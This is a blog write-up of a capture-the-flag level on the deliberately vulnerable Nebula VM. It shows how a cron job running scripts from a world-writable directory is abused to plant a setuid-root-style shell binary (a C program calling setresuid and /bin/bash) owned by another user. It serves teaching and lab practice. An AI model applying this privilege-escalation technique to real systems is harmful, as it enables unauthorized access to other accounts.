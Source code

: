 ```yaml
---
layout: post
title: "Nebula Series - Level 03"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 03**: the one where a scheduled job betrays its owner

<!--more-->

Ok, so the first thing to understand is that cron jobs, similar to setuid binaries, run as a specific user. The instructions for
this level indicate that there is a crontab that is called every couple of minutes and that we should inspect the files in `/home/flag03`
for more clues.

Taking a closer look at that directory we see

```bash
level03@nebula:/home/flag03$ ls -l
total 4
drwxrwxrwx 1 flag03 flag03  40 2020-04-10 06:27 writable.d
-rwxr--r-- 1 flag03 flag03 103 2020-04-10 06:19 writable.sh
```

There's a directory `/writable.d`, that has some pretty lax permissions, and a script that's likely
related to the scheduled job mentioned in the instructions.

```bash
level03@nebula:/home/flag03$ cat ./writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

Ok, so the script iterates over the files in `/writable.d`, executes them, and then deletes them.
Could we abuse this to write to a directory we otherwise wouldn't have permission to? Say... `flag03`'s home directory?

We place the following script in a file in `/writable.d` and wait for the scheduled job to run

```bash
#!/bin/bash

touch /home/flag03/test
```

After a few minutes we check the directory

```bash
level03@nebula:/home/flag03$ ls -l
total 4
-rw-rw-r-- 1 flag03 flag03   0 2020-04-10 06:39 test
drwxrwxrwx 1 flag03 flag03  40 2020-04-10 06:39 writable.d
-rwxr--r-- 1 flag03 flag03 103 2020-04-10 06:19 writable.sh
```

Sure enough, our script placed a `test` file, owned by `flag03` in their home directory. Now what?

We've already learned from previous levels that a `setuid` binary can be exploited to gain the privileges of
the user that owns it, and we just learned that we can create files as `flag03`; the plan is coming together.

Because `setuid` is ignored on interpreted executables, let's write a simple C program that changes our real uid
and runs a shell.

We'll put the following in a file called `exploit.c`

```c
#include <stdlib.h>
#include <sys/types.h>

int main(int argc, char **argv, char **envp)
{
    uid_t uid;

    uid = geteuid();

    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

And we'll compile it and save the output as `2_exploit`

```bash
$ gcc /home/level03/exploit.c -o /home/level03/2_exploit
```

Next, let's create a script called `1_exploit.sh` that, when run by the scheduled job, will copy our executable to `flag03`'s home directory
and enable `setuid`.

```bash
#!/bin/bash

cp /home/flag03/writable.d/2_exploit /home/flag03/exploit
chmod +s /home/flag03/exploit
```

We've numbered the files so that they get executed in the proper order by the cron job otherwise it might delete our binary before
it gets copied.

We copy both of those files to `/home/flag03/writable.d` and wait for the scheduled job to run.

A few minutes later we see our `exploit` binary sitting in our target's home directory waiting for us to use it. Note that it's
owned by `flag03` and is `setuid`

```bash
level03@nebula:/home/flag03$ ls -l
total 12
-rwsrwsr-x 1 flag03 flag03 7243 2020-04-10 07:15 exploit
-rw-rw-r-- 1 flag03 flag03    0 2020-04-10 06:39 test
drwxrwxrwx 1 flag03 flag03   40 2020-04-10 07:15 writable.d
-rwxr--r-- 1 flag03 flag03  103 2020-04-10 06:19 writable.sh
```

All that's left is to run our executable to get a shell as `flag03`.

```bash
level03@nebula:/home/flag03$ ./exploit
bash-4.2$ whoami
flag03
bash-4.2$ getflag
You have successfully executed getflag on a target account
```

In summary:

- each cron job runs as a specific user
- if the job executes scripts in a directory with lax access controls, it can be exploited
